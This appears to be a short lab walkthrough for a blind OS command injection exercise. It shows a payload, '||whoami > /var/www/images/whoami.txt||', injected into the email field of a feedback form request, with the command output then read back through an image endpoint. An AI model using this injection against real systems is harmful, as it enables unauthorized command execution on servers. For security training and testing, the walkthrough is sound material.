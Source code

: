1. Capture the request POST /feedback/submit
2. Prepend the string "||whoami > /var/www/images/whoami.txt||" before the value of email parameter in the body of the request. The body of request now looks like this:
```
name=test&email=||whoami > /var/www/images/whoami.txt||test%40gmail.com&subject=test&message=test
```
3. || is the logical OR operator. The ```whoami > /var/www/images/whoami.txt``` command will execute if its previous command fail, which is the case since the value of email is invalid.
4. Get the whoami.txt file: 
```
GET /image?filename=whoami.txt
```